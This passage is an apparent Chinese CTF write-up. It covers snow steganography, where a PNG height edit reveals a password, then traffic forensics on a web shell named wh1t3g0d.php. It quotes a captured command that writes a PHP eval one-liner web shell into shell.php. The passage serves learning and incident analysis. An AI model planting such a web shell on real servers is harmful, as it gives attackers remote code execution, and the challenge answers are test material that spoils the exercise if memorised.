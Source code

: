 我不知道为什么题解说根据题目提示很容易就检阅到snow隐写的知识点

### [收录CTF MISC方向中使用的在线工具网站](https://blog.51cto.com/u_16159500/6517104)

这里题解给了一个在线的snow隐写解密，但是我看别人使用的话，是要填写一个url来进行解密，所以如果要采取在线解密方法的话，那就需要搭建一个本地网页localhost，感觉麻烦，主要是之前没搞过，懒得研究，直接下载了exe文件来解密

至于snow隐写需要的密码自然就藏在png图片中了，可能就是宽高隐藏了，在winhex中修改一下高度

**(png图片的宽高是在第17字节开始的到第24个字节，前四字节是宽，后四字节是高)**

![image-20240307231630417](../typora-user-images/image-20240307231630417.png)

可以看到密码 s00_b4by_f0r_y0u

![image-20240307231837584](../typora-user-images/image-20240307231837584.png)

解密得到flag

其实snow隐写就是HTML中的隐写，这一点要知道

参考博客 https://blog.51cto.com/u_15400016/4292784





### 第四题 3-溯源 ***

<img src="../typora-user-images/image-20240307232134867.png" alt="image-20240307232134867" style="zoom:50%;" />

这道题目和1-序章，2-分析是一脉相承的

取巧就是看上一道题目也就是2-分析 中我们知道有一个shell：wh1t3g0d.php

以此继续分析，但是这个命令要知道哇

http.request.uri.path contains "wh1t3g0d.php"

<img src="../typora-user-images/image-20240308110504886.png" alt="image-20240308110504886" style="zoom:67%;" />

内容如上

这个命令实际上是一个 HTTP 请求，它试图访问名为 `wh1t3g0d.php` 的文件，并传递了一个参数 `a`，其值为 `echo "<?php eval(\$_POST['test']); ?>" > shell.php`。

也就是说这个请求的目的是向 `wh1t3g0d.php` 文件传递了一段 PHP 代码，并将这段代码写入到名为 `shell.php` 的文件中。

因此我们继续跟踪shell.php

![image-20240308110945866](../typora-user-images/image-20240308110945866.png)

为什么这里没有uri.path了

<img src="../typora-user-images/image-20240308111220720.png" alt="image-20240308111220720" style="zoom:80%;" />

写入了1.php文件

文件内容是base64编码，我们解密看看

